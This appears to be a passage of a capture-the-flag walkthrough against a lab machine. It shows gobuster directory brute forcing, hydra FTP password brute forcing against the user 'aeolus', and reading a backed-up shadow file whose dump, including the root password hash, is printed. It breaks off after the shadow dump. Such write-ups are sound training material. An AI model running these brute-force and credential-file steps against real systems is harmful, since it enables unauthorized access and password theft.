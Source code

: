 ## *HTTP*

    $ gobuster dir -u http://10.0.0.32/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![image](https://user-images.githubusercontent.com/76552238/158073752-0bca272c-62e9-48ba-896c-b0f833f46c19.png)


After brute forcing the directories on the web site on hosted on port 80 doesn't hold any files or extra directories, so we will leave it for now. 

## *FTP*

    $ ftp 10.0.0.32

![image](https://user-images.githubusercontent.com/76552238/158073767-9ffb418a-0638-4cba-8f54-00cee4cabf79.png)

FTP doesn't allow for anonymous logins so let's try brute forcing it using the username we found.

    $ hydra -l 'aeolus' -P /usr/share/wordlists/rockyou.txt ftp://10.0.0.32 -IV

![image](https://user-images.githubusercontent.com/76552238/158074730-bbb5095d-60ef-4f01-8252-bbc51a74e8ff.png)



    $ ftp 10.0.0.32

![image](https://user-images.githubusercontent.com/76552238/158074777-881e1a06-ba8c-4b67-8868-1a21bade5036.png)


Logging in to the FTP server it holds the the shares that can be found in the SMB service on the machine. Maybe the credentials we found are also valid for a SSH login.

## *SSH*

Going back to the log.txt file, the admin of the machine copied the /etc/shadow file, we can read it:

    $ cat /var/backups/shadow.bak

    root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
    daemon:*:18095:0:99999:7:::
    bin:*:18095:0:99999:7:::
    sys:*:18095:0:99999:7:::
    sync:*:18095:0:99999:7:::
    games:*:18095:0:99999:7:::
    man:*:18095:0:99999:7:::
    lp:*:18095:0:99999:7:::
    mail:*:18095:0:99999:7:::
    news:*:18095:0:99999:7:::
    uucp:*:18095:0:99999:7:::
    proxy:*:18095:0:99999:7:::
    www-data:*:18095:0:99999:7:::
    backup:*:18095:0:99999:7:::
    list:*:18095:0:99999:7:::
    irc:*:18095:0:99999:7:::
    gnats:*:18095:0:99999:7:::
    nobody:*:18095:0:99999:7:::
    systemd-timesync:*:18095:0:99999:7:::
    systemd-network:*:18095:0:99999:7:::
    systemd-resolve:*:18095:0:99999:7:::
    systemd-bus-proxy:*:18095:0:99999:7:::
    _apt:*:18095:0:99999:7:::
    Debian-exim:!:18095:0:99999:7:::
    messagebus:*:18095:0:99999:7:::
    sshd:*:18095:0:99999:7:::